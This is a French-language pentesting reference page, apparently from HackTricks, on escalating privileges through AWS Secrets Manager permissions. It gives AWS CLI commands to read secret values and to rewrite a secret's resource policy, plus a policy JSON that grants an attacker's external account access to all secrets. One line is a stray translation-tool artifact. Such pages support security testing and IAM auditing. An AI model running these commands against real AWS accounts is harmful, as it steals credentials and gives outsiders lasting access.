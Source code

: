 # AWS - Secrets Manager Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Pour plus d'informations sur Secrets Manager, consultez :

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Un attaquant disposant de cette permission peut obtenir la **valeur enregistrée à l'intérieur d'un secret** dans AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Impact potentiel :** Accès à des données hautement sensibles dans le service AWS Secrets Manager.

> [!WARNING]
> Notez que même avec la permission `secretsmanager:BatchGetSecretValue`, un attaquant aurait aussi besoin de `secretsmanager:GetSecretValue` pour récupérer les secrets sensibles.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Avec les permissions précédentes, il est possible d'**accorder l'accès à d'autres principals/accounts (même externes)** pour accéder au **secret**. Notez que, pour **lire des secrets chiffrés** avec une KMS key, l'utilisateur doit également avoir **l'accès à la KMS key** (plus d'infos sur la [KMS Enum page](../../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
Veuillez fournir le contenu de policy.json que vous souhaitez traduire.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../../banners/hacktricks-training.md}}
